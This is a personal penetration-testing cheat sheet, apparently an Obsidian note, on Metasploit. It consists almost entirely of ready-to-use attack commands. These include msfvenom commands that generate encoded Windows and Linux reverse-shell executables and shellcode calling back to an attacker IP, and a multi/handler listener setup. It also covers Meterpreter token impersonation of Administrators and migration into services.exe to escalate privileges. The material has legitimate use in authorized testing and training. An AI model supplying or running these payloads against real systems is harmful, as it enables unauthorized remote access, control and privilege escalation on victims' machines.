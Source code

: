 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

metasploit

~~~bash
msfconsole
msfvenom
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb
~~~

Launch MSFConsole

~~~bash
msfconsole
~~~

Pick an Exploit (Way into the system)

~~~bash
use exploit/.../.../.../explot_to_use
~~~

Set a Payload (Way back to you)

~~~bash
set PAYLOAD .../.../.../reverse_shell
set PAYLOAD .../.../.../bind_shell
~~~

Show Options to Set

~~~bash
show options
~~~

Set Options within the Exploit and Payload

~~~bash
set LHOST 10.10.10.100
set LPORT 4444
set RHOSTS 10.10.10.10
set RPORT 8080
etc...
~~~

Spool output to file

~~~bash
spool /home/kali/spool_file.txt
~~~

Stopping Spooling

~~~bash
spool off
~~~

Run Exploit

~~~bash
run
~~~

Accepting Connections Within Metasploit

~~~bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST your-ip
set LPORT listening-port
run
~~~

Breakdown of the above:

use exploit/multi/handler                                        -- Sets up the handler to accept the incoming connection
set PAYLOAD windows/meterpreter/reverse_tcp           -- Sets the payload for the handler to accept and interpret properly (THIS MUST MATCH THE MSFVENOM GENERATED PAYLOAD)
set LHOST your-ip                                                  -- Sets the Local Host IP/Listening Host IP for accepting the incoming connection
set LPORT listening-port                                          -- Sets the Local Port on the Local/Listening Host to Listen on for the incoming connection
run                                                                      -- Runs the Handler that we have set up

Example of the MSFVenom command used to set this attack up:

~~~bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
~~~

Once you have a meterpreter shell, you can type “help” for a list of commands available to you in the Meterpreter session. If you do not have needed commands, you may be running mismatched meterpreter payloads and meterpreter can't get a proper session set up.

Once you have a Meterpreter session active, you can load and use modules on the Victim PC.

To load a module, issue the command:

~~~bash
load <module name>
~~~

ex. load incognito

Incognito is used for Token Impersonation

~~~bash
Meterpreter>load incognito
~~~

List Available Tokens for Impersonation

List groups

~~~bash
list_tokens -g
~~~

list users

~~~bash
list_tokens -u
~~~

Impersonate a Specific Available Token

~~~bash
impersonate_token "BUILTIN\Administrators"
~~~

Verify that you have Successfully Impersonated the Token

~~~bash
getuid
~~~

Find a safe Process to Migrate to for Primary Token (Impersonation is a stepping stone for Primary Token Impersonation)

~~~bash
ps
~~~

Locate the PID for “services.exe” as this is generally a safe process to migrate to for escalation

~~~bash
migrate <PID Number>
~~~

After Successfully Migrating to another process with Higher Privs, you can now execute an interactive shell on the system

~~~bash
shell
~~~

Allows you to generate shellcode or executables for access on a victim machine

Shellcode Generation 

***(This will work without Metasploit as this is a non-meterpreter payload)

~~~bash
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=LISTENER_PORT EXITFUNC=thread -f c -a x86 -b "\x00\OTHERBADCHARS"
~~~

Breakdown of the above command:
-p == Payload Specification
windows/shell_reverse_tcp == Payload To Use
LHOST == Local Host IP (Attacker PC)
LPORT == Listener Port (Attacker PC)
EXITFUNC == Function To Exit Payload Gracefully
-f == Format/File Type
c == C Code (exe would indicate windows binary, py would indicate python script, etc.)
-a == Architecture Specification
x86 == 32Bit Architecture
-b == Bad Character Specification (used for Buffer Overflow Shellcode)
“\x00\OTHERBADCHARS” == Bad Character Definitions

Executable Generation 

***(This will not work outside of Metasploit as this is a meterpreter payload)

~~~bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.10.10 LPORT=4444 -f exe -o badexecutable.exe
~~~

Breakdown of the above command:
-p == Payload Specification
windows/shell_reverse_tcp == Payload To Use
-a == Architecture Specification
x86 == 32Bit Architecture
--encoder == Encoder Specification flag
x86/sikata_ga_nai == Encoder Definition
LHOST == Local Host IP (Attacker PC)
LPORT == Listener Port (Attacker PC)
-f == Format/File Type
exe == exe binary (exe would indicate windows binary, py would indicate python script, etc.)
-o == Output File Specification Flag
badexecutable.exe == Output File Definition (Path can be included i.e. /home/user/badexecutable.exe)

!IMPORTANT NOTES!

Meterpreter Payloads will only be accepted in Metasploit
Other Payloads should be able to be accepted using NetCat

~~~bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.49.152 LPORT=4444 -f elf -o shell
~~~


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
